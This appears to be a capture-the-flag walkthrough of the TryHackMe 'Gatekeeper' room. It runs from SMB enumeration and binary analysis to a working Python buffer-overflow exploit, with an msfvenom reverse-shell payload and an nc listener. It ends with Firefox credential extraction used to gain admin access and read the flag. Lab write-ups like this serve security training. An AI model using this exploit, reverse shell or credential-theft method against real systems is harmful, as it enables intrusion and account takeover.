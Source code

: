 # [Gatekeeper](https://tryhackme.com/room/gatekeeper) walkthrough

Can you get past the gate and through the fire?



## First enumeration by the nmap:

```bash
nmap -sV -sC -p- -T4 10.10.87.68 -oN fullport-scan.txt
```

We can see some interesting ports:

![image-20250315201021938](image-20250315201021938.png)

but it looks like it's not responding so well, let's look at smb nmap script scan results.

![image-20250315202220456](image-20250315202220456.png)

## SmbMap

guest seem work at smb, so lest's use guest account with smbmap

```bash
smbmap -H 10.10.87.68 -u guest -r Users/Share
```

![image-20250315204556682](image-20250315204556682.png)

```bash
smbmap -H 10.10.87.68 -u guest --download Users/Share/gatekeeper.exe
```

There is interesting file `gatekeeper.exe` so after downloading it, i will try to make some reverse engineering using radare2

## radare2

![image-20250315221144267](image-20250315221144267.png)

![image-20250315221233442](image-20250315221233442.png)

As we can see, this is some kind of server listening on port 31337, so probable these program listening on 31337 as main server.

Let's try to found some vulnerability in these program

![image-20250315225736098](image-20250315225736098.png)

here we can see that program in did listen on 31337

![image-20250315235001004](image-20250315235001004.png)

program crash after sending 200 characters, we can see that EIP value is 41414141, so it was change by value that I send. Let's try to find the offset of EIP, and create buffer overflow.

```bash
msf-pattern_create -l 200
msf-pattern_offset -l 200 -q 39654138
[*] Exact match at offset 146
```

Now we're generating payload

```bash
msfvenom -p windows/custom/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f python
```

![image-20250316012821272](image-20250316012821272.png)

I wrote exploit with use buffer overflow to make reverse shell

```python
import socket
import os
from threading import Thread


LOCAL_HOST='127.0.0.1'
LOCAL_PORT='4444'
server_ip = '127.0.0.1'
server_port = 31337

def net_cat_listen():
    os.system(f'nc -lvnp {LOCAL_PORT}')

command = f'msfvenom -p windows/shell_reverse_tcp LHOST={LOCAL_HOST} LPORT={LOCAL_PORT} -f python -b "\\x00\\x0a" > buffer.py'
os.system(command)
Thread(target=net_cat_listen, args=[]).start()

from buffer import buf


EIP_offset=146

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((server_ip, server_port))
print(len(buf))
message = b'\x90'*EIP_offset

message +=b'\xc3\x14\x04\x08' #EIP 080414C3
to_send= message +b'\x90'*10 + buf
to_send+='\n'.encode('utf-8')
sent = sock.send(to_send)
sock.close()

```

Now let's try at machine.

## PrivEsc

After I upgrade shell to meterpreter. I made some enumeration and found 

![image-20250316142937756](image-20250316142937756.png)

The only interesting application is Mozilla Firefox. Simple methods of privesc doesn't work, so let's try to extract some credentials from Firefox and use them ass login to server.

![image-20250316143151748](image-20250316143151748.png)

extracting work fine, so let's decrypt it using [firefox_decrypt](https://github.com/unode/firefox_decrypt)

![image-20250316143405407](image-20250316143405407.png)

we got credentials for `https://creds.com` let's try them as credentials to machine

```bash
smbmap -H 10.10.224.135 -u mayor -p <PASSWORD>
```

![image-20250316144712768](image-20250316144712768.png)

so we got an admin.

Let's read the flag

```bash
smbmap -H 10.10.224.135 -u mayor -p <PASSWORD> -x 'type Users\mayor\Desktop\root.txt.txt'
```

![image-20250316150230570](image-20250316150230570.png)
